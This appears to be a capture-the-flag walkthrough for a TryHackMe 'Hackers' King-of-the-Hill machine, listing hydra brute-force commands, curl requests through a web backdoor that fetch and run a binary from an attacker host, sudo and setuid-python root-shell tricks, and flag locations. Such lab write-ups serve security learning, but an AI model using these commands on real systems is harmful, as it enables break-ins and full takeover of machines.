 # Hackers KOTH machine

## foothold

The ports are 21, 22 and 80. On 21 anonymous, can recover two user names, `rcampbell` and `gcrawford` that have weak passwords, as well as a `.flag`
on the site, there is a 'backdoor'. The username is `plague`, the password must be bruted. this will get a webshell as production.

so there are two avenues in, via bruting: 

- the web backdoor with plague: `hydra -l plague -P rockyou.txt -t 64 10.10.107.80 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"`
 - have also had success with `xato-net-10-million-passwords-100000.txt`
 - once a password is found, the following curl commands can establish a rush shell:

  ```
  curl -d "username=plague&password=PASS" RHOST/api/login # gets the session key
  curl -H "Cookie: SessionToken=SESSIONKEY" -d "wget LHOST:1234/client -O .bash && chmod +x .bash && ./.bash" RHOST/api/cmd
  ```

- the ssh and ftp services with rcampbell and gcrawford. put these into users.txt and run `hydra -L users.txt -P rockyou.txt -t 64 ftp://10.10.107.80` and 
 `hydra -L users.txt -P rockyou.txt ssh://10.10.107.80`
 
i suspect rockyou is not the best - examining the plague server, it seems to consist of common english words - i have broken in with `caravan`, and through ssh with rcampbell as `hernandez`. I have also run hydra for the whole hour with rockyou and gotten nowhere.

## paths to root

- production can run `openssl` as root via sudo. read any file with `sudo openssl enc -in source`, and write files with `sudo openssl enc -in source -out dest` or `cat source | sudo openssl -out dest`
 - this can be removed with `rm /etc/sudoers.d/production`
- gcrawford can run `pico` as root via sudo
 - this can be removed with `rm /etc/sudoers.d/gcrawford`
- otherwise `/usr/bin/python3.6` has the setuid capability, and can get a root shell via: `/usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
 - this can be removed with `setcap -r /usr/bin/python3.6`

## flags

- /root/.flag
- /home/gcrawford/business.txt
- /home/tryhackme/.flag
- /home/rcampbell/.flag
- /home/production/.flag
- /home/production/webserver/resources/main.css
- /var/ftp/.flag
- /etc/vsftpd.conf
- /etc/ssh/sshd_config
